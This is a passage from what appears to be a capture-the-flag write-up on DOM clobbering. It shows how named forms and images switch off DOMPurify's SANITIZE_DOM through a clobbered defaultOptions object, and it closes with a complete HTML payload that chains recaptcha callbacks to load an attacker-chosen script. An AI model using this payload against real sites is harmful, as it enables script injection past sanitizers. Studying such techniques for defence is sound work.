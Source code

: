 But, it's not working because DOMPurify prevents this behavior by default: https://github.com/cure53/DOMPurify/blob/main/src/purify.js#L1015

``` js
if (
  SANITIZE_DOM &&
  (lcName === 'id' || lcName === 'name') &&
  (value in document || value in formElement)
) {
  return false;
}
```

Fortunately, there is another vulnerability in the code:

``` js
function sanitize(html, options = defaultOptions) {
  return DOMPurify.sanitize(html, {
    FORBID_TAGS: options.blockTags || [],
    FORBID_ATTR: options.blockAttrs || [],
    FORCE_BODY: options.forceBody,
    WHOLE_DOCUMENT: options.wholeDocument,
    KEEP_CONTENT: !options.removeContent,
    SANITIZE_DOM: !options.allowDOM,
  })
}
```

When calling `sanitize` without `options`, the default value will be `defaultOptions`, so we can clobber `defaultOptions.allowDOM` to make `SANITIZE_DOM` falsy.

Also, we need to call `loadData()` again without any arguments to let `sanitizeOptions` be `undefined`.

To sum up, we can control `document.scripts['undefined']` by providing below HTML:

``` html
<div>
  <form></form>
  <form name="scripts">
    <img name="undefined" src="src_here">
  </form>
  <form id=defaultOptions>
    <img name=allowDOM>
  </form>
  <div class="g-recaptcha"
    data-sitekey="AAA"
    data-error-callback="reloadRecaptchaScript"
    data-size="invisible">
  </div>
  <div class="g-recaptcha"
    data-sitekey="BBB"
    data-error-callback="loadData"
    data-size="invisible">
  </div>
</div>
```
